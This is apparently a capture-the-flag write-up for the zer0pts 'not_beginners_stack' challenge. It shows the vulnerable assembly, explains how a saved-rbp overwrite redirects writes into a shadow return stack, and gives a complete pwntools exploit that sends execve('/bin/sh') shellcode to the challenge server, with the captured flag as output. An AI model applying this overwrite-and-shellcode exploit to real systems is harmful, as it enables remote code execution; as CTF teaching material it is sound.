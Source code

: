 # **NOT_BEGINNERS_STACK**
##Task
nc pwn.ctf.zer0pts.com 9011
File: chall FOR_BEGINNERS.md main.S
Tag: binary exploitation

##Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* No PIE assume to overwrite GOT
### Source
```asm
global _start
section .text

%macro call 1
;; __stack_shadow[__stack_depth++] = return_address;
  mov ecx, [__stack_depth]
  mov qword [__stack_shadow + rcx * 8], %%return_address
  inc dword [__stack_depth]
;; goto function
  jmp %1
  %%return_address:
%endmacro

%macro ret 0
;; goto __stack_shadow[--__stack_depth];
  dec dword [__stack_depth]
  mov ecx, [__stack_depth]
  jmp qword [__stack_shadow + rcx * 8]
%endmacro

_start:
  call notvuln
  call exit

notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret

vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret

read:
  xor eax, eax
  syscall
  ret

write:
  xor eax, eax
  inc eax
  syscall
  ret

exit:
  mov eax, 60
  syscall
  hlt
  
section .data
msg_data:
  db "Data: "
__stack_depth:
  dd 0

section .bss
__stack_shadow:
  resb 1024
```
This challenges use the special return address technique. It doesn't push the return address to stack but storing it into bss section with `__stack_shadow` array

Following the tutorial, We will overwrite the rbp register
### the vuln here
```asm
vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret
```
```
notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret
```
The `vuln` and `notvuln` use the same rbp, so we overwrite `[rbp-0x100]` with `__stack_shadow` address . Then, with the second write to [rbp-0x100] (now is `__stack_shadow`) in `notvuln` we will write the return address of `read` function to the address of shell code and the shellcraft next after it
### Script python using pwntools
```python
from pwn import *

context.arch = "amd64"

#p = process("./chall")
r = remote("pwn.ctf.zer0pts.com", 9011)
e = ELF("./chall")

jmp = e.sym["__stack_shadow"]

shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))

payload = b"a"*0x100
payload += p64(jmp + 0x108) # because the offset is __stack__shadow+8 when call the read in the notvuln func (we overwrite the return address of `call read` )

r.sendafter("Data: ", payload) #overwrite rbp
r.sendafter("Data: ", p64(jmp + 16)+shellcode) # address of the shell is now __stack_shadow + 16 

r.interactive()
```
### Output
```bash
$ cat flag-*.txt
zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}
```